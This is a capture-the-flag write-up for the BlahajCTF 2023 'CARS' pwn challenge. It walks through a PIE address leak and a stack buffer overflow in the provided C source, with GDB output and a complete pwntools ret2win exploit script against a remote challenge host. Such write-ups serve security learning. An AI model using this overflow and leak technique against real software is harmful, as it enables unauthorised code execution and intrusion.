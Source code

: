 ```yaml
---
title: CARS
date: 2023-12-05
tags: pwn
categories: BlahajCTF 2023
---
```

# CARS

##### DESC

> **"**I've been playing around with this reporting system for "cyber affairs", generating ticket after ticket in hopes of breaking it. I have a feeling that there's a way to access the admin panel...**"**

###### OVERVIEW

PIE + NX BYPASS (ROP) + RET2WIN

##### EXPLOIT REVIEW

I had access to the CARS binary. When runing checksec on the binary, I had obtained the following information...

```sh
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled

```

Seeing that NX is enabled, I knew that I could not just directly inject shellcode into this program and PIE being enabled suggested that the program's base address is randomised. To bypass these restrictions, the source code had to be looked at.

```c
#include <stdio.h>
#include <stdlib.h>

// Compiled using gcc -o cars -g -fno-stack-protector cars.c

unsigned long report_number = 0;

void setup()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void file_report()
{
    char input[28];
    printf("Please input your student ID: ");
    fgets(input, 28, stdin);
    printf("Please describe the incident: ");
    fgets(input, 256, stdin);
    printf("The matter has been recorded and will be investigated. Thank you.\n");
}

void admin()
{
    // how did you even get here?
    FILE *fptr = fopen("flag", "r");
    if (fptr == NULL)
    {
        printf("Cannot open flag\n");
        exit(0);
    }
    char c;
    while ((c = fgetc(fptr)) != EOF)
    {
        printf("%c", c);
    }
    fclose(fptr);
}

int main()
{
    setup();
    srand(0xb1adee); // this random seed is sooo drain
    report_number = rand();
    printf("Welcome to the Cyber Affairs Reporting System (CARS)\n");
    printf("Report number: #%lu\n", &report_number);
    file_report();
    return 0;
}
```

Paying close attention to the main() function, I had observed that a variable named **report_number** that's being generated from a constant seed **0xb1adee** and it's address (&) being printed out in the long format (%l). Reversing this binary in ghidra gave me the offset of **report number** from the start of the binary file, which is 

```
0x104090 - 0x100000 = 0x4090
```

To calculate program's base address, I had captured the address of **report_number** printed out in the long format, converted it to hex and subtracted 0x4090 from it. I then set the binary ELF's address to this calculated base address. PIE has been bypassed

Looking at the source code, I had noticed that there is a function conveniently planted there named 'admin()' that if called, prints out the flag. But this function is not called by any other function in the program. 

Looking at file_report() immediately called after the printf() statements, I saw that 2 fgets() functions are called and the second of which allows the user to write in 256 bytes of data into the **input** variable that can only hold 28 bytes. This buffer overflow can be exploited to overwrite RIP with admin()'s return address.

Firing up GDB, I used the command 

``` sh

pattern create 400

```
and inputted the generated result into the second fgets() function as discussed earlier. This caused a seg fault that I had used to look up registers. One particular register of interest is RBP and in a x64 stack layout, RBP is right next to the return address of the stack frame which is what I had wanted to control. In the GDB result after the seg fault, I had seen that RBP is overwritten with the generated pattern.

``` sh
$rax   : 0x42              
$rbx   : 0x00007fffffffe2f8  →  0x00007fffffffe5bb  →  "/home/xor8ex/blahaj/cars"
$rcx   : 0x00007ffff7ebfb00  →  0x5877fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffe1d8  →  "faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaala[...]"
$rbp   : 0x6161616161616165 ("eaaaaaaa"?)
$rsi   : 0x00007ffff7f9c803  →  0xf9da30000000000a ("\n"?)
$rdi   : 0x00007ffff7f9da30  →  0x0000000000000000
$rip   : 0x000055555555528d  →  <file_report+113> ret 
$r8    : 0xfe              
$r9    : 0x0               
$r10   : 0x00007ffff7dd10b8  →  0x00100022000048a8
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffe308  →  0x00007fffffffe5d4  →  "XDG_CURRENT_DESKTOP=GNOME"
$r14   : 0x0000555555557dd8  →  0x0000555555555180  →   endbr64 
$r15   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000555555554000  →   j
```

I had then used the simple command 

``` sh
pattern search $rbp
```

to find the offset of RBP. I had then +8 to the offset to find out the offset to the return address since RBP is 8 bytes long. In this case, I had found that the offset to the return address is 40. I then simply constructed a buffer overflow consisting of a payload of 40 bytes + admin()'s func address.

EXPLOIT:

- Capture the address of **report_number** displayed in long format and convert it to hex value
- Subtract 0x4090 from the calculated hex value to obtain program's base address and set it using pwntools 'elf.address=[BASE ADDRESS]'
- Constrcut a payload consisting of 40 bytes + 8 bytes of our desired return address ([BASE ADDRESS] +elf.sym['admin']) | ROP
- Send the payload to the second fgets() in file_report()

EXPLOIT CODE:

``` python
import time
from pwn import *

context(os='linux',arch='amd64')
p=remote("139.59.224.179","30002")
#p=process("./cars")
elf=ELF('./cars')

context.log_level='DEBUG'
output=p.recvuntil("Please")
leaked_address=hex(int(output[-21:-7]))

log.info(leaked_address)

base_address=(int(leaked_address,16)-int("0x4090",16))
log.info(hex((base_address)))

elf.address=base_address

payload=b"A"*40+p64(elf.sym['admin']+1) # When setting p to remote, you have to +1 to elf.sym['admin'] due to MOVAPS issue or else the exploit just fails lmao
#payload=b"A"*40+p64(elf.sym['admin'])
p.sendlineafter("ID: ","")
p.sendlineafter("incident: ",payload)
time.sleep(1)
p.interactive()
```

Running this code, I got the flag 

```
blahaj{r0pp1n6_w17h_p13}
```